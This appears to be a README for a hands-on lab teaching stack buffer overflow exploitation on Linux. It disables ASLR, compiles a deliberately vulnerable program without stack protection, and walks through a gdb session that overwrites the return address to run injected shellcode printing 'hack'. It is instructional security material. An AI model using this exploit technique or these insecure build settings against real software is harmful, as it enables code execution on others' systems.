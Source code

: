 #PREPARE!
To start practicing injecting shell code in this repo you have:
- `shellcode.asm` - simple asm code that print one word. it doesn't create any `\x00` bytes so you'll not have any problems with `strcpy()`.
- `victim.c` - vulnerable program.
- `shellcode.c` - executor for our `shellcode.asm` 

First prepare your OS:

Using any text editor write to `/etc/sysctl.conf` next lines:
```
kernel.randomize_va_space = 0
kernel.exec-shield = 0
```

And run `$ sudo sysctl -p`

After that run `ulimit -c unlimited`

#FIGHT
Run `make` to compile all the files and you will get something like 
```
rm -f shellcode victim *.o *~
gcc -g -z execstack -Wall -fno-stack-protector -o victim victim.c
nasm -f elf shellcode.asm
ld -o shellcode shellcode.o
sh getshell.sh
\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b
```

The last lines after sh.getshell is your shellcode to execute wherever you want.

To completely finish your action you can do next steps:

1. run `gdb victim`.

2. exec victim with params (count of "A" "B" "C" letters you must find experimentally to have `$EIP` be filled with only letter "B" - 42 code): 
  ```
  (gdb) r `python -c 'print "A"*10 + "B"*4 + "C"*30'`
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "B"*4 + "C"*30'`
  So... The End...
  AAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
  
  Program received signal SIGSEGV, Segmentation fault.
  0x42424242 in ?? ()
```
3. Replace `"C"*30` with your shellcode you got after make
  ```
  (gdb) r `python -c 'print "A"*12 + "B"*4 + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "B"*4 + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  So... The End...
  AAAAAAAAAAAABBBB�1�1�1�1ɰ�Y�1�1������hack
  
  Program received signal SIGSEGV, Segmentation fault.
  0x42424242 in ?? ()
  ``` 
4. After that you need to replace `"B"*4` with return address. You can look for it in stack or just try to use address from `$ESP` (cause we've put our code right after current program).
  
  ```
  (gdb) x/256xb $esp
  0xbffffca0: 0xeb    0x19    0x31    0xc0    0x31    0xdb    0x31    0xd2
  0xbffffca8: 0x31    0xc9    0xb0    0x04    0xb3    0x01    0x59    0xb2
  0xbffffcb0: 0x18    0xcd    0x80    0x31    0xc0    0xb0    0x01    0x31
  0xbffffcb8: 0xdb    0xcd    0x80    0xe8    0xe2    0xff    0xff    0xff
  ```
5. So **0xbffffca0** is our new return address. Just replace `"B"*4` with this address reversed. Here we go!
  
  ```
  Starting program: /root/lab/victim `python -c 'print "A"*12 + "\xa0\xfc\xff\xbf" + "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x18\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x61\x63\x6b"'`
  So... The End...
  AAAAAAAAAAAA�����1�1�1�1ɰ�Y�1�1������hack
  hack
  Program exited normally.
  (gdb)
  ```

After all you can find and try to inject any other shellcode from [Shell Storm](http://shell-storm.org/shellcode/)
#Requirements
- gcc
- make
- objdump
- nasm
- python or perl

#Thanks
[LifeDJIK](https://github.com/LifeDJIK) for helping to understand some parts.

#Useful links
- [Writing Buffer Overflows](http://www.madirish.net/142)
- [Shellcoding for Linux and Windows Tutorial](http://www.vividmachines.com/shellcode/shellcode.html)
- [x86](https://en.wikipedia.org/wiki/X86)
- [OWASP](https://www.owasp.org/index.php/Buffer_overflow_attack)
